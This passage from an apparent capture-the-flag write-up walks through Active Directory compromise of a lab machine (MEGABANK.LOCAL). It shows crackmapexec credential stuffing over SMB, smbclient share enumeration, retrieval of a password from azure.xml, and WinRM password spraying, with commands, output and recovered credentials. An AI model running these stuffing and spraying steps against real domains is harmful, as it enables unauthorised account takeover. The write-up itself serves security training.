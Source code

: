 I stored user names in a file called user1.txt and perform credential stuffing attack using crackmapexec and found the user **SABatchJobs** password is also **SABatchJobs** on smb.

```bash
$ crackmapexec smb megabank.local  -u user1.txt -p user1.txt
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

### SMB Shares

Then I utilize smbclient tool to enumerate shares and found **users$** share with read permission. 

```bash
| Disk            | Permissions  | Comment                |
|-----------------|--------------|------------------------|
| ADMIN$          | NO ACCESS    | Remote Admin           |
| azure_uploads   | READ ONLY    |                        |
| C$              | NO ACCESS    | Default share          |
| E$              | NO ACCESS    | Default share          |
| IPC$            | READ ONLY    | Remote IPC             |
| NETLOGON        | READ ONLY    | Logon server share     |
| SYSVOL          | READ ONLY    | Logon server share     |
| users$          | READ ONLY    |                        |
```

In SMB Share, there is a file called **azure.xml** was present on mhope user account. I downloaded it to my local account.

```bash
$ smbclient \\\\megabank.local\\users$\\mhope -U 'SABatchJobs%SABatchJobs' 
```

After viewing the content of **azure.xml** file, there i found the password. 

<img  alt="Pasted image 20240729233350" src="https://github.com/user-attachments/assets/36fa919c-8af9-4334-9e2c-e6e0b92be605">

`4n0therD4y@n0th3r$`
### Password Spraying

Using Password Spraying techniques, i discover that the mhope user has that password.

```bash
$ crackmapexec winrm  megabank.local -u user1.txt -p '4n0therD4y@n0th3r$' --continue-on-success
SMB         10.129.228.111  5985   MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
HTTP        10.129.228.111  5985   MONTEVERDE       [*] http://10.129.228.111:5985/wsman
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\Guest:4n0therD4y@n0th3r$ 
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$ 
HTTP        10.129.228.111  5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\roleary:4n0therD4y@n0th3r$ (Pwn3d!)
HTTP        10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:4n0therD4y@n0th3r$ (Pwn3d!)
```

